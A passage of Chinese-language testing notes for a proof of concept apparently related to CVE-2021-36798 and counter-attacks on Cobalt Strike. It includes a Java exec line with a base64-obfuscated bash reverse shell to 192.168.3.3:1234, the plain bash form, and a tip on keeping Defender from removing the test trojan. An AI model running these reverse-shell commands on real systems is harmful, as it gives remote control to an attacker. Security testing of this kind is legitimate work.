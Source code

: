 **经测试，若中途出现任务无法响应的情况，直接任务管理器结束任务即可，测试出现的frida报错导致无法启动frida的情况只能靠重启电脑实现，怀疑是缓存原因导致**



5.除了基础测试漏洞的弹出计算器，还可进一步测试rce：

> 反弹shell
>
> https://blog.spoock.com/2018/10/31/reverse-shell-on-limited-environments/
>
> https://xz.aliyun.com/t/5257
>
> https://www.cnpanda.net/codeaudit/759.html  
>

```
java命令:
Runtime.getRuntime().exec("bash -c {echo,YmFzaCAtaSA+JiAvZGV2L3RjcC8xOTIuMTY4LjMuMy8xMjM0IDA+JjE=}|{base64,-d}|{bash,-i}");

bash命令：
bash -i >& /dev/tcp/192.168.3.3/1234 0>&1
```



6.注意测试时Windows运行马时可以开启简单杀软避免defener误删

> https://github.com/Tlaster/YourAV



7.运行poc py文件之前先安装依赖，由于我这遇到了问题就贴出来最后解决的命令

```
pip install -r requirements.txt -i http://pypi.douban.com/simple --trusted-host pypi.douban.com --no-cache-dir
```



## 延伸参考

https://nvd.nist.gov/vuln/detail/CVE-2021-36798

张慧琳,邹维,韩心慧.网页木马机理与防御技术[J].软件学报,2013,24(04):843-858.

刘晨,李春强,丘国伟.基于Cobalt Strike和Office漏洞的入侵者反制研究[J].网络空间安全,2018,9(01):56-61.

Strategic Cyber Cobalt Strike[J].SC magazine,2014,25(2):44-44





















